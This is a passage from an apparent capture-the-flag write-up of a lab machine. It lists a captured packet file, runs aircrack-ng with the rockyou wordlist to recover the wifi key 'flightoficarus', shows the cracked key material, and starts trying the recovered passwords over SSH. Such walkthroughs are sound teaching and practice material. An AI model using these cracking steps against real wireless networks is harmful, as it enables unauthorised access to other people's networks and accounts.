     
    
    ‍pwd
    /home/zeus/airgeddon/captured
    ‍ls -la
    total 304
    drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 .
    drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
    -rw-r--r-- 1 zeus zeus 297917 Apr  8 12:48 captured.cap
    -rw-r--r-- 1 zeus zeus     57 Apr  8 17:30 papyrus.txt
    
    ‍cat papyrus.txt
    Captured while flying. I'll banish him to Olympia - Zeus
    

### Cracking 802.11

I’ll pull the cap file back to my workstation using nc, and then use
`aircrack-ng` to get the wifi password from the pcap. To do so, we’ll need the
SSID, which we find in the first packet:

![1526933143270](https://0xdfimages.gitlab.io/img/1526933143270.png)

    
    
    root@kali# aircrack-ng -e Too_cl0se_to_th3_Sun -w /usr/share/wordlists/rockyou.txt olympia_loot/caputred.cap
    
                                     Aircrack-ng 1.2
    
          [00:12:44] 5306144/9822768 keys tested (7499.83 k/s)
    
          Time left: 10 minutes, 2 seconds                          54.02%
    
                            KEY FOUND! [ flightoficarus ]
    
    
          Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A
                           88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48
    
          Transient Key  : 46 7D FD D8 1A E5 1A 98 50 C8 DD 13 26 E7 32 7C
                           DE E7 77 4E 83 03 D9 24 74 81 30 84 AD AD F8 10
                           21 62 1F 60 15 02 0C 5C 1C 84 60 FA 34 DE C0 4F
                           35 F6 4F 03 A2 0F 8F 6F 5E 20 05 27 E1 73 E0 73
    
          EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
    

### SSH as icarus

Back at the original `nmap`, there was ssh open on port 2222. With some new
passwords in hand, try logging in. Both zeus and root failed with both
“flightoficarus” and “Too_cl0se_to_th3_Sun”. But there’s be several hints here
that we’re talking about [Icarus](https://en.wikipedia.org/wiki/Icarus):

  * The 802.11 password, “flightoficarus”
  * The network name “Too_cl0se_to_th3_Sun”
  * We’ll see later that the first container was named Create, and Icarus and his father escate from Create
